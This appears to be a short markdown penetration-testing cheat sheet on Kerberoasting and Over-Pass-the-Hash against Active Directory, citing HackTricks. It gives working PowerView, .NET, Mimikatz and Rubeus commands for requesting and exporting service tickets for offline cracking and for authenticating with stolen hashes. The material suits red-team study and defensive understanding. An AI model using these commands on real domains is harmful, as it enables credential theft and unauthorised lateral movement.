 https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast

> Kerberoasting a technique in which the passwords of service accounts are cracked. Kerberoasting is mainly efficient if user accounts are used as service accounts. A TGS ticket can be requested for this user, where the TGS is encrypted with the NTLM hash of the user's plaintext password. If the service account is a user account created by the administrator, there is a greater chance that this ticket can be cracked, and therefore the password for the service will be determined. This TGS ticket can be cracked offline. Nidem's kerberoast [https://github.com/nidem/kerberoast] repository is used for the attack.

```powershell
# To see existing tickets
klist

# Remove all tickets
klist purge
```

### PowerView
Request a kerberos service ticket for specified SPN.  By default the output is in Hashcat format
```powershell
Request-SPNTicket -SPN "CIFS/target.domain.local" [-OutputFormat JTR]
```
### Manually
By doing it manually, ticket is generated, it requires to be extracted to crack the hash
```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "CIFS/target.domain.local"
```

Dump the tickets out
```text
Invoke-Mimikatz -Command '"kerberos::list /export"'
```

Now, crack ’em
### Over-Pass the Hash
#### Rubeus
```powershell
Rubeus.exe asktgt /user:USER < /rc4:HASH | /aes128:HASH | /aes256:HASH> [/domain:DOMAIN] [/opsec] /ptt
```
#### Mimikatz
```powershell
sekurlsa::pth /user:Administrator /domain:target.domain.local < /ntlm:hash | /aes256:hash> /run:powershell.exe
```